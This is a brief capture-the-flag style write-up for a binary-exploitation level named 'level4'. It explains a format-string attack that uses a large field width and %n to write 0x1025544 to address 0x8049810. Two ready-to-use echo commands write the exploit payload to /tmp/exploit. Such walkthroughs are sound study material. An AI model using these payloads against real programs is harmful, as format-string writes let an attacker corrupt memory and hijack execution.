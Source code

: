 # level4

Pretty much the same as last level but we need to add width becasue the value we
want to write is very large.

## Useful infos

we want to write : 0x1025544 = 16930116  
at address: 0x8049810 = \x10\x98\x04\x08

exploit: `echo -e "\x10\x98\x04\x08%16930112%12$n" > /tmp/exploit`  
exploit: `echo -e "\x10\x98\x04\x08%16930052x%x%x%x%x%x%x%x%x%x%x%n" > /tmp/exploit`